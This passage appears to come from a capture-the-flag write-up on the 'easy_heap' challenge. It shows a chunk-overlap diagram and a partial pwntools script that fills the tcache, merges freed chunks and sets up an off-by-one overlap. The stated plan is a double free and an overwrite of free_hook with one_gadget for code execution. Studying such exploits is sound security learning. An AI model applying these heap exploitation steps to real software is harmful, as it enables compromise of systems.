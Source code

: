 ```
+---------------+
|               |
|               |
|               |
|               |
+---------------+
|prev size:0x200| -> we got prev_size for overlapping!
+---------------+
|  size: 0x100  | 
+---------------+
|               |
|               |
|               |
|               |
+---------------+
|prev size:0x300| -> Last added prev_size
+---------------+
```

When the chunks get freed, it will only change the last added prev_size, and the middle one(0x200) remains the same.

Finally, we can overlap and use double free. "Full RELRO" is enabled. We have to overwrite `free_hook` to `one_gadget` to RCE. By the way, remember filled the `TCache` list by 7 chunks to use `unsorted bin`:
```python
from pwn import *

p = process("easy_heap")
context.log_level = "DEBUG"

def _free(index):
    p.sendlineafter(">", "2")
    p.sendlineafter(">", str(index))

def _malloc(size, content):
    p.sendlineafter(">", "1")
    p.sendlineafter(">", str(size))
    p.sendlineafter(">", content)

def _puts(index):
    p.sendlineafter(">", "3")
    p.sendlineafter(">", str(index))

def fill_tcache(start, end, step = 1):
    for i in range(start, end, step):
        _free(i)

def remove_tcache(num):
    for i in range(0, num):
        _malloc(2, "a")


# Initialize
for i in range(0, 10):
    _malloc(0x2, "a")

# fill the TCache to put chunk to unsorted bins
fill_tcache(3, 10)

# Chunk1 and chunk2 will merged, so chunk3's prev_size = 0x200
# Now, we can use off by one to overlap chunks
_free(0)
_free(1)
```